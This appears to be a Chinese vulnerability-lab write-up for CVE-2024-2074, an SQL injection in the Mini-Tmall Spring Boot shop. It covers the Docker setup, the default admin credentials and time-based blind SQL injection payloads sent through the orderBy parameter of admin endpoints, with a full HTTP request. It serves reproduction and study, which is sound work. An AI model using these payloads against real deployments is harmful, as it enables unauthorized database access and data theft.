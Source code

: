 # CVE-2024-2074 SpringBoot迷你天猫商城Mini-Tmall sql注入

Mini-Tmall是一个基于Spring Boot的迷你天猫商城。Mini-Tmall在20231017版本及之前存在一个严重的漏洞，攻击者可以利用该漏洞通过远程执行特定操作来注入恶意SQL语句，从而获取敏感信息或控制数据库。此漏洞影响文件?r=tmall/admin/user/1/1的一些未知处理，攻击者可以通过篡改orderBy参数来达成sql注入攻击。攻击者可以通过远程方式发起攻击。

版本影响 <=20231017版本

项目下载地址https://gitee.com/project_team/Tmall_demo/tree/master

参考链接：

- https://blog.csdn.net/shelter1234567/article/details/136683670
- https://github.com/yuziiiiiiiiii/CVE-2024-2074/blob/main/cve.md
- https://nvd.nist.gov/vuln/detail/CVE-2024-2074

## 漏洞环境

执行如下命令启动一个minitmall-20231017-web服务器：

```
docker compose up 
```

环境启动后，访问`http://your-ip:8080`将看到minitmall的主页面

## 漏洞复现

需要登录下后台 ，用户admin 密码123456

![](https://img-blog.csdnimg.cn/direct/664f9800839b43159ceb31ce0c64e9c8.png)

1，admin/user接口

发送payload 时间盲注

```
GET /tmall/admin/user/1/1?orderBy=if(1=1,SLEEP(3),0) HTTP/1.1
GET /tmall/admin/user/1/1?orderBy=if(1=0,SLEEP(3),0) HTTP/1.1
```

```
GET /tmall/admin/user/1/1?orderBy=if(1=1,SLEEP(3),0) HTTP/1.1
Host: 192.168.116.128:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.105 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=47A17DA7DE2B54FC5D39E161ED9A8614; username=admin; _ga=GA1.1.2049876865.1708327587; _ga_ZCZHJPMEG7=GS1.1.1709204007.4.0.1709204007.0.0.0; Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1709286898; wp-settings-time-1=1709712213; __test=1; TCSESSIONID=C535ABCCFF3BD453A9744400E7499A10; PHPSESSID=30296698223c1b44b6021dd0ce8ff70f
Connection: close
```

![](https://img-blog.csdnimg.cn/direct/71bab7df101249da8b214465b7943051.png)

![](https://img-blog.csdnimg.cn/direct/d4cf76cfd8a941e89daec694056e9d74.png)

2，admin/product接口

发送payload 时间盲注

![](https://img-blog.csdnimg.cn/direct/5e6c189d37e9470abe2ff14f2d9fc6d3.png)

![](https://img-blog.csdnimg.cn/direct/e96c849d517a49da85938c3b74e7442a.png)